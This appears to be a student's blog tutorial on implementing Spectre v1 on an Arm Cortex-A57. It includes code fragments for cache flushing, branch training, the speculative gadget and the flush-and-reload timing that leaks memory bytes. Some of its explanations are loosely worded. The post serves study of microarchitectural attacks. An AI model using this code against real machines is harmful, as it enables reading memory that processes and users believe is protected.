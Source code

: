 ```yaml
---
layout: post
title: Spectre on Arm cortex A57 English Version
categories: [Microarchitecture vulnerability, English Version]
description: Cache
keywords: Microarchitecture
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


# Spectre V1 on Arm
This article mainly discusses the implementation of Spectre v1 on Arm Cortex 57. For specific principles, please refer to the paper at https://spectreattack.com/spectre.pdf. The principle of Spectre is not complicated, but its specific implementation is not easy to describe. (My ability to express myself is very limited, and I usually score poorly in literature classes. If you find this article confusing, you can email me for clarification, although there are some questions I may not be able to answer.) All the code will be open-sourced after the completion of the graduation project.
## Spectre V1
Basically, if I flush `array1_size`, the CPU needs some time to access physical memory to retrieve the variable's value. During this process, many processors may trigger out-of-order execution, skipping the conditional branch. Typically, there is a cache inside the CPU to store some results of conditional branches. When skipping the conditional branch, the CPU refers to this cache. If the previous several conditional branches were all true, then in the process of out-of-order execution, this branch would be assumed to be taken by default, and the code inside the branch would be executed.
```
if (x < array1_size)
    y = array2[array1[x] * 4096];
```

Suppose we manipulate the branch prediction cache so that it always predicts the result of this condition as true. However, if we pass a value `x` greater than `array_size`, the program can access a position beyond the range of `array2`, and then use the retrieved value to access `reloadbuffer` (or `array1`). In this scenario, we can exploit the flush-and-reload side-channel to obtain this value.


## Spectre V1 Arm cortex A57 implementation
There is an open-source repository that currently implements the Spectre V1 attack on Arm architecture. In my implementation, I leverage their branch training approach. I am currently unable to locate it, but I will update once I find it.

The general approach is as follows:

Firstly, we use the flush-and-reload technique to determine the boundary between cache hits and cache misses.
```
CACHE_THRESHOLD = measure_latency();
```

Next, we start training branches and leak the string we want to retrieve. Firstly, we flush our `reloadbuffer` from the cache. It's preferable to add a memory barrier (`barrier`) before each memory operation to ensure that the flush completes before subsequent instructions start executing, thus preventing flushes from being interrupted by out-of-order execution.

```
for (int i = 0; i < 256; i++)
	cacheflush(&reloadbuffer[i * STRIDE]); 
```
```
static inline __attribute__((always_inline)) void barrier(void){
  asm volatile ("DMB SY ");
}
```

We also flush the size of the string we want to leak from the cache, causing the branch prediction to slow down.
```
cacheflush(&array1_size);
```

At this point, we begin training the branch prediction to predict the branch as taken. Only when `j` is divisible by `10`, `probe_addr` will be set to `target`, which is the address we want to leak. Otherwise, `j` will be set to `train_index`, where `train_index` falls within the range of `array1_size`. At the end of each iteration, probe_addr will be set back to target (outside the range of `array1`).




```
probe_addr = ((j % 10) - 1) & ~0xFFFF; 
probe_addr = (probe_addr | (probe_addr >> 16)); 
probe_addr = train_index ^ (probe_addr & (target ^ train_index));
cacheflush(&array1_size);   // flush again (I dont know why)
spectre_v1(&probe_addr);
```
```
void spectre_v1(size_t *index) {
	if (*index < array1_size)
	{
		pick = reloadbuffer[fake_buffer[*index] * STRIDE];
	}
}
```


Finally, we perform the `reload` operation. Here, we use a scrambled access pattern `index = ((i * 167) + 13) & 255`; to prevent interference from the prefetcher. If the access time to a position is less than the calculated `CACHE_THRESHOLD`, it indicates a cache hit, meaning that the position has been accessed in the `spectre_v1` function. Therefore, this value is the byte we want to leak.
```
for (int i = 0; i < 256; i++)
{
	index = ((i * 167) + 13) & 255;
	measured_clock = timed_read(&reloadbuffer[index * STRIDE], &start, &end);
	if (measured_clock <= CACHE_THRESHOLD && index != fake_buffer[tries % array1_size])
		results[index]++; 
}
```

Some of the more important inline assembly functions look something like this:
```
static inline __attribute__((always_inline)) void cacheflush(void* address)
{
  	asm volatile ("DC CIVAC, %0" :: "r"(address));
  	asm volatile ("DSB ISH");
  	asm volatile ("ISB");
}

static inline __attribute__((always_inline)) void barrier(void){
  	asm volatile ("DMB SY ");
}

//#include <time.h>
void clock_init(struct timespec *start){
  	clock_gettime(CLOCK_REALTIME, start);
}

void clock_end(struct timespec *end){
  	clock_gettime(CLOCK_REALTIME, end);
}

uint64_t get_clock(struct timespec start, struct timespec end){
  	return BILLION * (end.tv_sec - start.tv_sec) + end.tv_nsec - start.tv_nsec;
}

static uint64_t timed_read(volatile uint8_t *addr, struct timespec *start, struct timespec *end) {
	volatile uint8_t pick = 0; 
  	clock_init(start);
	pick = *addr;
  	clock_end(end);
	barrier();
  	return get_clock(*start, *end);
}
```

